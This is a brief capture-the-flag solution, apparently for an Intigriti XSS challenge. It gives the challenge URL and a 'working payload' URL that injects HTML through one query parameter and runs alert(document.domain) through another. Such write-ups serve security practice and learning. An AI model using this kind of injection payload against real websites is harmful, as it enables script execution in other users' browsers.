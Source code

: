 Challange: https://challenge-1021.intigriti.io/challenge/challenge.php

Working payload

```
https://challenge-1021.intigriti.io/challenge/challenge.php?html=%3C/h1%3E%3C/div%3E%3Ca%3E%3Ca%20id=%22intigriti%22%3E%3Ctag%3E%3Cpink%27aa%3E&xss=;alert(document.domain)
```
